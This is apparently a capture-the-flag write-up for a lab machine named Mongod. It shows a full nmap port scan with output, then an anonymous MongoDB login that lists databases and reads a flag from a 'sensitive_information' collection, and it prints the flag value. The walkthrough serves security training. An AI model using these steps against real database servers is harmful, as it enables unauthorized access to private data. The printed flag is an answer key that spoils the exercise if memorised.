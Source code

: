# Writeup Mongod

#MongoDB
#Databases
#Reconnaissance
#Misconfiguration
#Anonymous/Guest Access

## Introduction

Databases are organized collections of information that are easily accessible, manageable, and updatable, playing a crucial role in environments by handling sales transactions, product inventory, customer profiles, and marketing activities. MongoDB is a document-oriented NoSQL database where data is organized into databases, collections, and documents, with documents storing data in a JSON-like format. Misconfigurations in database servers, such as allowing anonymous logins, can lead to unauthorized access to sensitive information. For example, the Mongod Linux box runs a MongoDB server that permits anonymous login, enabling remote connection and database enumeration using the mongo command line utility to retrieve data.

**MongoDB** is a document-oriented database. In other words, you get the scalability and flexibility you want, with the query and indexing functions you need.

## Enumeration

- `nmap -p- --min-rate=1000 -sV {TARGET_IP}`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 05:26 EDT
Warning: 10.129.44.89 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.44.89
Host is up (0.098s latency).
Not shown: 65253 closed tcp ports (reset), 280 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.55 seconds
```

-p- : This flag scans for all TCP ports ranging from 0-65535

-sV : Attempts to determine the version of the service running on a port

--min-rate : This is used to specify the minimum number of packets that Nmap should
send per second; it speeds up the scan as the number goes higher

- `mongo --host {TARGET_IP}:{PORT}`

```
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
switched to db sensitive_information
> show collections
flag
> db.flag.find().pretty()
{
        "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
        "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
}
```

- `db.flag.find().pretty()` display all documents

flag: 1b6e6fb359e7c40241b6d431427ba6ea